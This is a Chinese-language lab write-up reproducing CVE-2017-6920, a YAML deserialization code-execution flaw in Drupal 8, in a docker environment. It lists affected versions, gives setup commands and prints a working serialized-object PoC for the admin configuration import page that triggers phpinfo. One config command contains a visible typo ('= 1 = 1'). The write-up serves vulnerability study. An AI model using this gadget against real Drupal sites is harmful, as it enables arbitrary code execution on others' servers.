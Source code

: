 ```yaml
---
title: "（CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞"
id: zhfly2892
---
```


# （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

## 二、漏洞影响

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

## 三、复现过程

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```
docker-compose up -d 
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

*   先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER 
```

*   1.登录一个管理员账号
*   2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
*   3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}" 
```

![image](../img/30a1eb918e33d8d867e6a975c6fd2de4.png)

*   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image](../img/89ae0ca163026036a79df52320dd4e35.png)

*   Tips：
    *   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2017-6920/